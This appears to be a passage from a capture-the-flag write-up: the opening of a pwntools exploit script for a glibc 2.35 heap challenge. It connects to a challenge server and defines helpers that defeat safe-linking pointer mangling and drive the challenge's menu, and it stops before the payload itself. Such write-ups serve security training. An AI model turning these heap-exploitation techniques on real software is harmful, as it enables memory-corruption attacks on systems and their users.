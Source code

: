 #### Final Exploit
```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("chall_patched")
libc = ELF("libc.so.6")
ld = ELF("./ld-2.35.so")

context.binary = exe
context.terminal = ["alacritty", "-e"]

def conn():
    if args.LOCAL:
        r = process([exe.path])
    elif args.GDB:
        r = gdb.debug([exe.path])
    else:
        r = remote("13.125.233.58", 7331)

    return r

r = conn()

def get_heap_base(Pprime):
    Pprime_byte = 0 
    xor_byte = 0
    decoded = Pprime >> 36

    for i in range(3):
        Pprime_byte = Pprime >> (28 - i*8)
        xor_byte = Pprime_byte ^ (decoded >> 4)
        decoded = decoded << 8
        decoded |= xor_byte
    
    return decoded << 12

def calculate_P1(P, L):
    L12 = L >> 12
    P = P.to_bytes(8, "big")
    L12 = L12.to_bytes(8, "big")
    return int(bytes([p^l12 for p,l12 in zip(P,L12)]).hex(), 16)

def add(size, data):
    r.sendlineafter(b">>", b"1")
    r.sendlineafter(b":", str(size).encode())
    r.sendafter(b":", data)

def free(idx):
    r.sendlineafter(b">>", b"2")
    r.sendlineafter(b":", str(idx).encode())

def modify(idx, data):
    assert len(data) <= 40
    r.sendlineafter(b">>", b"3")
    r.sendlineafter(b":", str(idx).encode())
    r.sendafter(b":", data)

def view(idx):
    r.sendlineafter(b">>", b"4")
    r.sendlineafter(b":", str(idx).encode())
    return r.recvuntil(b"1. add")[1:-6]
```